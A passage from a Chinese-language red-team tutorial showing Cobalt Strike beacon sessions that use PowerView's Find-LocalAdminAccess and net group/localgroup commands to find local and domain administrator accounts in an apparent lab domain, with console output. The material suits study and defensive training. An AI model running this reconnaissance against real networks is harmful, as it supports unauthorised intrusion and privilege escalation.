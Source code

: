 在上一节讲述的 PowerView 有很多很好的自动操作来帮助解决这些问题。可以在加载 PowerView 后，运行下面的命令，通过 PowerView 可以快速找到管理员账号。

```powershell
powershell Find-LocalAdminAccess
```


```powershell
beacon> powershell-import powerview.ps1
[*] Tasked beacon to import: powerview.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```

#### 域管理员账号
第二个关键步骤，发现域管理员账号。
**列出域管理员**
对于发现域管理员账号，可以在共享里使用本地的Windows命令。运行以下两条命令可以用来找出这些“域群组”的成员。

```powershell
net group "enterprise admins" /DOMAIN
net group "domain admins" /DOMAIN
```
```powershell
beacon> shell net group "enterprise admins" /domain
[*] Tasked beacon to run: net group "enterprise admins" /domain
[+] host called home, sent: 68 bytes
[+] received output:
组名     Enterprise Admins
注释     企业的指定系统管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```

```powershell
beacon> shell net group "domain admins" /domain
[*] Tasked beacon to run: net group "domain admins" /domain
[+] host called home, sent: 64 bytes
[+] received output:
组名     Domain Admins
注释     指定的域管理员
成员
-------------------------------------------------------------------------------
Administrator            
命令成功完成。
```
或者运行下面的命令来看谁是域控制器上的管理员
```powershell
net localgroup "administrators" /DOMAIN
```
```powershell
beacon> shell net localgroup "administrators" /domain
[*] Tasked beacon to run: net localgroup "administrators" /domain
[+] host called home, sent: 70 bytes
[+] received output:
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权
成员
-------------------------------------------------------------------------------
administrator
Domain Admins
```